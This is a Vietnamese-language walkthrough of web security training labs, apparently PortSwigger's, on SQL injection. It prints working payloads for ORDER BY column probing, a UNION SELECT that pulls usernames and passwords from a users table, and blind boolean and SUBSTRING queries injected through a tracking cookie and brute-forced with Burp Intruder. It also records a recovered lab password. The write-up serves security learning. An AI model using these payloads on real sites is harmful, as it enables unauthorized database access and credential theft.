
](images/sqli_lab_09/lab09.07.png)
Payload này sẽ:

Nối username và password bằng dấu ```:```
Trả về thông tin tài khoản administrator

## SQL injection UNION attack, retrieving data from other tables
](images/sqli_lab_10/lab10.01.png)
Mục tiêu: Thực hiện UNION attack để lấy toàn bộ username và password, sau đó đăng nhập với tài khoản administrator để hoàn thành lab.

Kiểm tra hệ thống dùng ```'``` hay ```"```
Dùng ```ORDER BY``` để xác định số cột
](<images/sqli_lab_10/lab 10.02.png>)
Sau khi test ta thấy query dùng dấu ```'```
Khi dùng ```ORDER BY 2``` mà trả về ```200 OK``` → suy ra có 2 cột.

Payload:
```filter?category=Gifts' ORDER BY 2-- -```


Để kiểm tra khả năng dùng UNION:

```filter?category=Gifts' UNION SELECT NULL,NULL-- -```


Trong bài này, yêu cầu là truy vấn bảng users để lấy thông tin đăng nhập của tài khoản administrator.

Payload:

```Gifts' UNION SELECT username, password FROM users WHERE username='administrator'-- -```
Giải thích:

- Dùng UNION để ghép kết quả từ bảng users vào query ban đầu
- Truy vấn trực tiếp hai cột username và password
- Lọc đúng tài khoản administrator

Sau đó chỉ cần lấy thông tin trả về và đăng nhập là xong.



## Blind SQL injection with conditional responses
](images/sqli_lab_11/lab11.01.png)

Mục tiêu: Đăng nhập thành công vào hệ thống bằng tài khoản administrator.


Và đầu tiên chúng ta đã biết được là có lố hổng SQLi nằm ở trong phần tracking cookie

Tôi sẽ bắt lấy gói tin ở phần login để tránh nhiều dữ liệu không cần thiết : 

](images/sqli_lab_11/lab11.02.png)


TrackingId=8pFqowXqjugNhIMW' AND 1=1-- 

](images/sqli_lab_11/lab11.03.png)
Và khi để 1 điều kiện luôn sai thì : 

TrackingId=2eJE1fSsJW1OVdYI' AND 1=0--

](images/sqli_lab_11/lab11.04.png)

Và ở bài này họ đã cho chúng ta biết trước tên bảng và tên cột , nên có thể skip bớt bước đó.

Nhiệm vụ bây giờ sẽ là phải đi tìm được password của tài khoản admin. 

EXPLOIT
trước hết , ta phải xác định được độ dài của password
](images/sqli_lab_11/lab11.05.png)
](images/sqli_lab_11/lab11.06.png)

' AND (SELECT LENGTH(password) FROM users WHERE username='administrator')>x --
sau khi thử x với giá trị bằng 19 và 20 , ta đã thấy sự khác biệt , và có thể chắc chắn rằng độ dài của password mà ta đang cần tìm chính là 20 kí tự.


' AND (SELECT SUBSTRING(LOWER(password), x, 1) FROM users WHERE username='administrator')='y' --
Bây giờ thì mình sẽ phải thực hiện bruteforce với 2 vị trí là x và y để tìm ra mật khẩu đúng .

dưới đây là quá trình set-up intruder : 
](images/sqli_lab_11/lab11.07.png)
](images/sqli_lab_11/lab11.08.png)

Và cái Grep match dưới đây là để xác định những kí tự đúng : 


Và chúng ta nhận được kết quả như sau : 


](images/sqli_lab_11/lab11.10.png)

x2oixj3q5v72c6knt5it
](images/sqli_lab_11/lab11.11.png)

### Blind SQL injection with out-of-band data exfiltration

## Visible error-based SQL injection